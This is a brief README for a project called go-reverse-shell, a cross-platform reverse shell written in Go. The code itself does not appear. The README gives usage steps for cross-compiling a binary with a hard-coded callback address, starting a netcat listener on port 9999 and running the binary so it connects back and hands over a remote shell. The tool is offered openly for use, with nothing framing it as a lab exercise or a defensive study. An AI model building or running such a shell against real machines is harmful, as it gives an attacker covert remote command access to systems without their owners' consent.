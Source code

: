 # go-reverse-shell

A cross-platform reverse shell written in Go.

## Usage

List supported platforms.

~~~ sh
go tool dist list
~~~

Compile static binary.

~~~ sh
./build.sh GOARCH=arm GOOS=linux TARGET=192.168.0.128:9999
./build.sh GOARCH=amd64 GOOS=windows TARGET=10.10.10.42:9999
~~~

Start listener.

~~~ sh
nc -lnvp 9999
~~~

Connect back.

~~~ sh
./shell.bin
~~~
